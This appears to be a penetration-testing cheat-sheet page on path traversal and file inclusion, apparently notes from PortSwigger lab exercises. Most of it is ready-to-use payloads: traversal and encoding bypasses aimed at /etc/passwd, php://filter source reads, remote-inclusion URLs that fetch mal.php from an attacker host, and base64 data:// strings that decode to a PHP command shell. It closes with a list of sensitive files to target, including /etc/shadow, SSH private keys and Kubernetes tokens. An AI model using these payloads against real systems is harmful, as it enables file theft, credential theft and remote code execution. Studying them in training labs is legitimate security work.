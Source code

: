 ```yaml
---
title: "Path Traversal"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



- Simple Path traversal : 
```sh
../../../etc/passwd
```

- Another way: 
```sh
http://Zephir.com/artcile=New_shoes/../../../etc/passwd
```

- You can sometime do a Path traversal thanks to image path like this :
```sh
https://Portswiger.web-security-academy.net/image?filename=9.jpg

https://Portswiger.web-security-academy.net/image?filename=/etc/passwd
```

- Traversal sequences stripped :
```sh
https://Portswiger.web-security-academy.net/image?filename=....//....//....//etc//passwd
```

```sh
....// or ....\/
```

- Double Encoding : 
```sh
https://Portswiger.web-security-academy.net/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```

[URL double encoding](https://yolospacehacker.com/en/toolbox.php?id=LFIURLDoubleEncodage)
```
<   %3C %253C
>   %3E %253E
«   %22 %2522
‘   %27 %2527
/   %2F %252F
.   %2E %252E
=   %3D %253D
–   %2D %252D
:   %3A %253A
```

`You can double encode with burpsuite`

- Null Bytes :
```sh
https://Portswiger.web-security-academy.net/image?filename=../../../../etc/passwd%00.png

#Or

https://Portswiger.web-security-academy.net/image?filename=index.php%00
```

- Validation of start of path :
```sh
https://Portswiger.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd
```

- Read File with php:filter :
```sh
https://Portswiger.web-security-academy.net/image?filename=php://filter/convert.base64-encode/resource=index.php
```

- RFI:
```sh
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

- If for some reason `**allow_url_include**` is **On**, but PHP is **filtering** access to external webpages ,you could use for example the data protocol with base64 to decode a b64 PHP code and get RCE:
```sh
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```

or

```sh
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

- Interesting Linux files
```sh
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/plocate/plocate.db
/var/lib/mlocate.db
```